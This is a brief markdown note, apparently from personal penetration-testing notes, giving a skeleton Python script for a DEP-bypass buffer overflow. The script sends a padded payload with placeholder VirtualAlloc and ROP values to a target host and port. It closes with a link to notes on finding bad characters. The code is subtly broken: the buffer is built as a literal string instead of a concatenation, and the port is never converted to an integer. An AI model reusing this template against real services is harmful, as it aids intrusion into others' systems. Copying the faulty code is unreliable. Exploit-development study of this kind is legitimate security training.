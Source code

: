 # DEP Bypass

### 1. Skeleton python code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
va  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
va += pack("<L", (0x46464646)) # Shellcode Return Address
va += pack("<L", (0x47474747)) # # dummy Shellcode Address
va += pack("<L", (0x48484848)) # dummy dwSize 
va += pack("<L", (0x49494949)) # # dummy flAllocationType 
va += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf))

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

## 2. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)
